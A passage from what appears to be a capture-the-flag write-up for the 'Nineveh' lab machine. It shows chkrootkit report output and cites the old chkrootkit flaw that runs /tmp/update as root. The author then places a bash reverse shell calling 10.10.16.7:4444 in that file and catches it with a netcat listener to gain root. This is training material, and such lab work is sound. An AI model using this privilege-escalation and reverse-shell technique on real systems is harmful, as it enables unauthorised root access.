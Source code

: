 It periodically deletes everything in the /report dir. Looking in the dir, we find report files. An example has content:

```bash
arching for AjaKit rootkit default files and dirs... nothing found    
Searching for zaRwT rootkit default files and dirs... nothing found                                                                              
Searching for Madalin rootkit default files... nothing found            
Searching for Fu rootkit default files... nothing found                 
Searching for ESRK rootkit default files... nothing found                                                                                        
Searching for rootedoor... nothing found                                
Searching for ENYELKM rootkit default files... nothing found            
Searching for common ssh-scanners default files... nothing found        
Searching for suspect PHP files...                                      
/var/tmp/hack.php                                                       
/var/tmp/ninevehNotes2.php                                              
/var/tmp/ninevehNotes.php                                               
                                                                        
Searching for anomalies in shell history files... Warning: `//root/.bash_history' is linked to another file
Checking `asp'... not infected                                          
Checking `bindshell'... not infected                                    
Checking `lkm'... not tested: can't exec                                
Checking `rexedcs'... not found                                         
Checking `sniffer'... not tested: can't exec ./ifpromisc
Checking `w55808'... not infected                                       
Checking `wted'... not tested: can't exec ./chkwtmp
Checking `scalper'... not infected                                      
Checking `slapper'... not infected                                      
Checking `z2'... not tested: can't exec ./chklastlog
Checking `chkutmp'... not tested: can't exec ./chkutmp        
Checking `OSX_RSPLUG'... not infected 
```

Searching up the output on ChatGPT, and asking what program would produce this, tells us it’s from chkrootkit, which scans for signs of rootkit.

```bash
Searching for Madalin rootkit default files... nothing found            
Searching for Fu rootkit default files... nothing found                 
Searching for ESRK rootkit default files... nothing found   
```

We search up chkrootkit and find this exploit:

[https://www.rapid7.com/db/modules/exploit/unix/local/chkrootkit/](https://www.rapid7.com/db/modules/exploit/unix/local/chkrootkit/)

```bash
Description
Chkrootkit before 0.50 will run any executable file named /tmp/update
as root, allowing a trivial privilege escalation.
```

Let’s create an executable in /tmp/update and let it execute a reverse shell:

```bash
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.16.7/4444 0>&1'
```

After a while, we get root:

```bash
nc -lnvp 4444
```

![image.png]({{ site.baseurl }}/assets/nineveh/image%2019.png)